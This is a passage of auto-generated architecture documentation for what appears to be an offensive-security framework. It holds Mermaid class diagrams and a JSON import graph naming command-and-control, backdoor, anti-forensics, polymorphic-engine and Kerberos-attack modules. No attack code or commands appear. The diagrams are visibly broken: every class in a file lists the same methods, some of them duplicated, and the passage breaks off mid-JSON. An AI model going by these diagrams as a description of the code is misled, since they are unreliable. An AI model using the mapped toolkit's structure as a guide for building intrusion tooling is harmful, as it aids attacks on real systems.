  }
  class banner_config_py_GitSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_VenvSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_TimeSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_KernelSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_VersionSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_KarmaSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_BatteryLoadSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_SegmentRegistry {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_BannerSettings {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_ContextResolver {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_BannerRenderer {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py__WizardTab {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_BannerConfigurator {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
```

#### `cli/chain_mode.py`

```mermaid
classDiagram
  direction LR
  class chain_mode_py__ChainEscExit {
    <<class>>
    +_read_line_unix(prompt)
    +_read_line_windows(prompt)
    +from_step(cls, step)
    +__init__(self, sessions_dir)
    +load(self)
    +save(self, enabled)
    +__init__(self, config, resolver)
    +enabled(self)
    +steps_run(self)
    +set_enabled(self, value, persist)
  }
  class chain_mode_py_ChainSuggestion {
    <<class>>
    +_read_line_unix(prompt)
    +_read_line_windows(prompt)
    +from_step(cls, step)
    +__init__(self, sessions_dir)
    +load(self)
    +save(self, enabled)
    +__init__(self, config, resolver)
    +enabled(self)
    +steps_run(self)
    +set_enabled(self, value, persist)
  }
  class chain_mode_py_ChainOutcome {
    <<class>>
    +_read_line_unix(prompt)
    +_read_line_windows(prompt)
    +from_step(cls, step)
    +__init__(self, sessions_dir)
    +load(self)
    +save(self, enabled)
    +__init__(self, config, resolver)
    +enabled(self)
    +steps_run(self)
    +set_enabled(self, value, persist)
  }
  class chain_mode_py_ChainModeConfig {
    <<class>>
    +_read_line_unix(prompt)
    +_read_line_windows(prompt)
    +from_step(cls, step)
    +__init__(self, sessions_dir)
    +load(self)
    +save(self, enabled)
    +__init__(self, config, resolver)
    +enabled(self)
    +steps_run(self)
    +set_enabled(self, value, persist)
  }
  class chain_mode_py_ChainModeStore {
    <<class>>
    +_read_line_unix(prompt)
    +_read_line_windows(prompt)
    +from_step(cls, step)
    +__init__(self, sessions_dir)
    +load(self)
    +save(self, enabled)
    +__init__(self, config, resolver)
    +enabled(self)
    +steps_run(self)
    +set_enabled(self, value, persist)
  }
  class chain_mode_py_ChainPromptEngine {
    <<class>>
    +_read_line_unix(prompt)
    +_read_line_windows(prompt)
    +from_step(cls, step)
    +__init__(self, sessions_dir)
    +load(self)
    +save(self, enabled)
    +__init__(self, config, resolver)
    +enabled(self)
    +steps_run(self)
    +set_enabled(self, value, persist)
  }
```

#### `cli/cli_enhancements.py`

```mermaid
classDiagram
  direction LR
  class cli_enhancements_py_PayloadProvider {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_CommandLister {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_TerminalIO {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_CommandInfo {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_FuzzyMatch {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_FuzzyCommandIndex {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_CompletionResult {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_PayloadAwareCompleter {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_AliasResolver {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_DynamicAliasResolver {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_HotReloader {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_AddonHotReloader {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_StatusUpdate {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_LiveStatusTail {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_TranscriptEntry {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_TranscriptStore {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_FormField {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_FormSpec {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py__DefaultTerminalIO {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_InteractiveForm {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_DictPayloadProvider {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
  class cli_enhancements_py_StaticCommandLister {
    <<class>>
    +commands_from_cmd2_shell(shell)
    +_extract_doc(shell, name)
    +get(self, key, default)
    +keys(self)
    +commands(self)
    +prompt(self, message, default)
    +emit(self, line)
    +__init__(self, source)
    +search(self, query, limit)
    +_score(info, q)
  }
```

---

## Code Property Graph

Machine-readable Code Property Graph (CPG) in JSON-LD format. This block allows AI agents to parse the full structural graph without additional file reads. Compatible with GraphRAG pipelines.

```json
{"@context": "https://schema.org", "analysis": {"communities": [{"cohesion": 0.55, "id": 0, "label": "cli/commands: utils", "size": 125}, {"cohesion": 0.496, "id": 1, "label": "modules: lazyc2", "size": 123}, {"cohesion": 0.529, "id": 2, "label": "modules: autonomous_daemon", "size": 113}, {"cohesion": 0.533, "id": 3, "label": "cli: status_bar", "size": 97}, {"cohesion": 0.594, "id": 4, "label": "modules: lazy_loop", "size": 69}, {"cohesion": 0.942, "id": 5, "label": "lazygui/panels", "size": 54}, {"cohesion": 0.459, "id": 6, "label": "modules: estorides_importer", "size": 50}, {"cohesion": 0.483, "id": 7, "label": "static/js", "size": 29}, {"cohesion": 0.456, "id": 8, "label": "cli: banner_config", "size": 29}, {"cohesion": 0.417, "id": 9, "label": "cli/commands: c2_profile_engine", "size": 26}, {"cohesion": 0.786, "id": 10, "label": "skills/claude_md_orchestrator", "size": 17}, {"cohesion": 0.526, "id": 11, "label": "modules: surface_graph", "size": 15}, {"cohesion": 0.875, "id": 12, "label": "modules: kerberos_core", "size": 7}, {"cohesion": 0.857, "id": 13, "label": "modules: saas_attacks", "size": 7}, {"cohesion": 0.846, "id": 14, "label": "skills/hermes-lazyown", "size": 7}, {"cohesion": 0.833, "id": 15, "label": "modules: polymorphic_engine", "size": 6}, {"cohesion": 0.8, "id": 16, "label": "contrib/legacy", "size": 5}, {"cohesion": 1.0, "id": 17, "label": "scripts: journal", "size": 3}, {"cohesion": 1.0, "id": 18, "label": "modules/backdoor", "size": 2}, {"cohesion": 1.0, "id": 19, "label": "poc_tui", "size": 2}, {"cohesion": 1.0, "id": 20, "label": "scripts: check_contract_manifest", "size": 2}, {"cohesion": 1.0, "id": 21, "label": "scripts: migrate_lazyown", "size": 2}, {"cohesion": 1.0, "id": 22, "label": "test", "size": 2}, {"cohesion": 1.0, "id": 23, "label": "tools", "size": 2}], "god_nodes": [{"node_id": "core/logging.py", "score": 249.2}, {"node_id": "utils.py", "score": 212.4}, {"node_id": "cli/commands/_base.py", "score": 182.7}, {"node_id": "skills/lazyown_mcp.py", "score": 182.2}, {"node_id": "modules/lazy_loop.py", "score": 171.6}, {"node_id": "lazyc2.py", "score": 122.4}, {"node_id": "lazyown.py", "score": 116.9}, {"node_id": "core/console.py", "score": 101.1}, {"node_id": "skills/autonomous_daemon.py", "score": 98.8}, {"node_id": "core/config.py", "score": 97.7}], "surprising_connections": [{"hops": 9, "source": "lazygui/__init__.py", "target": "modules/search.py"}, {"hops": 9, "source": "modules/kerberos_core.py", "target": "modules/search.py"}, {"hops": 8, "source": "lazyc2/blueprints/session_auth.py", "target": "modules/search.py"}, {"hops": 8, "source": "lazyc2/extensions/__init__.py", "target": "lazyc2/state.py"}, {"hops": 8, "source": "lazyc2/extensions/__init__.py", "target": "modules/exp.c"}]}, "edges": [{"confidence": "EXTRACTED", "relation": "imports", "source": "banner.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "banner.py", "target": "PIL"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/__init__.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/__init__.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/aliases.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/aliases.py", "target": "string"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/aliases.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/aliases.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/aliases.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/aliases.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/assign.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/assign.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/assign.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/assign.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "cryptography.fernet"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "cryptography.fernet"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/auto_crypto.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/autosuggest.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/autosuggest.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/autosuggest.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/autosuggest.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/autosuggest.py", "target": "core.text_utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/autosuggest.py", "target": "core.safe_console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "curses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/banner_config.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "cli.noise_verbs"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "tty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/chain_mode.py", "target": "msvcrt"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "difflib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/cli_enhancements.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_chain.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_chain.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_chain.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_chain.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_chain.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_explorer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_explorer.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_explorer.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_explorer.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_explorer.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_explorer.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_explorer.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "textual.binding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/command_form.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/_base.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/_base.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/_base.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/_base.py", "target": "cmd2.exceptions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/_base.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/_base.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/_dormancy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/_dormancy.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/active_directory.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/active_directory.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/active_directory.py", "target": "modules.kerberos_tickets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/active_directory.py", "target": "modules.delegation_attacks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/active_directory.py", "target": "modules.delegation_attacks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/active_directory.py", "target": "modules.dacl_abuse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/active_directory.py", "target": "modules.gpo_abuse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/active_directory.py", "target": "modules.gpo_abuse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/active_directory.py", "target": "modules.kerberoasting"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "traceback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "modules.llm_adapter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "modules.llm_prompts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "core.llm_budget"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "modules.sidequestion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ai.py", "target": "cli.confirm"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "cli.confirm"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "cli.output_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": 